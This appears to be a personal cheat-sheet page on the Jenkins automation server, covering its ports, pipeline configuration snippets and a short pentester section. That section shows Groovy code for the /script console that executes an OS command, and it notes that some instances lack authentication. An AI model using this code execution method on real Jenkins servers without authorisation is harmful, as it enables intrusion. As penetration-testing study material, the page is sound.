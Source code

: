 # Jenkins

<div class="row row-cols-lg-2"><div>

[Jenkins](https://www.jenkins.io/) is an open-source automation server. It means that it's not a server hosting code, but it can be connected to a GIT server such as GitLab to process [CI/CD](index.md) workflows.

* [GitHub](https://github.com/jenkinsci/jenkins) <small>(21.9k ⭐)</small>
* [User Documentation](https://www.jenkins.io/doc/book/) <small>(⛪)</small>

The biggest strength of Jenkins is that it has a great number of [plugins](https://plugins.jenkins.io/), such as plugins to visualize CI results (tests, coverage...).
</div><div>

Jenkins is written in Java, while [Groovy](https://www.groovy-lang.org) is often used for plugins and for configuration files. It runs on [Apache Tomcat](/operating-systems/cloud/webservers/others/tomcat/index.md).

**Ports** 🐲: 8080 <small>(HTTP)</small> and 5000 <small>(Master/Slave communication)</small>.

Jenkins can be connected to a database or LDAP.
</div></div>

<hr class="sep-both">

## Jenkins Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

* Try to access the login page (`/login`)

#### Foothold

* Some Jenkins instances don't have authentication
* Some Jenkins instances may allow us to create accounts
</div><div>

#### Exploitation

The `/script` endpoint can be used to run groovy code.

```groovy
def command = "ls /"
def stdout = new StringBuffer(), stderr = new StringBuffer()
def process = command.execute()
process.consumeProcessOutput(stdout, stderr)
process.waitForOrKill(1000)
def exitCode = process.exitValue()
def output = stderr + stdout

println("Exit Code: ${exitCode}")
println("Output:\n${output}")
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* master/slaves (a.k.a. workers)
* freestyle projects (web interface) vs pipeline jobs (as code)
* Jenkinsfile (groovy)
</div><div>

<details class="details-n">
<summary>Basic file</summary>

```java
pipeline {
    agent any
    stages {
        stage('xxx') {
            steps {
                git 'https://github.com/example/my-java-app.git'
                git branch: env.BRANCH_NAME, url: 'URL'
                sh 'xxx'
            }
        }
    }
}
```
</details>

<details class="details-n">
<summary>Add options</summary>

```java
    options {
        buildDiscarder(logRotator(numToKeepStr: '10', daysToKeepStr: '7'))
    }
```
</details>

<details class="details-n">
<summary>Poll SCM or webhooks to trigger a pipeline</summary>

```java
    triggers {
        cron('H H(0-7) * * 1-5')
        webhook('')
    }
```
</details>

<details class="details-n">
<summary>Artifacts are the output of the build</summary>

```java
    post {
        always {
            junit '*.xml'
        }
        success {
            archiveArtifacts '*.xml'
        }
    }
```
</details>

<details class="details-n">
<summary>Bonus</summary>

```java
stage('xxx') {
    when {
        branch 'development'
    }
}
```

```java
// https://plugins.jenkins.io/warnings-ng/
recordIssues(
    tools: [clangTidy(pattern: 'clang-tidy-report.txt')]
)
```
</details>
</div></div>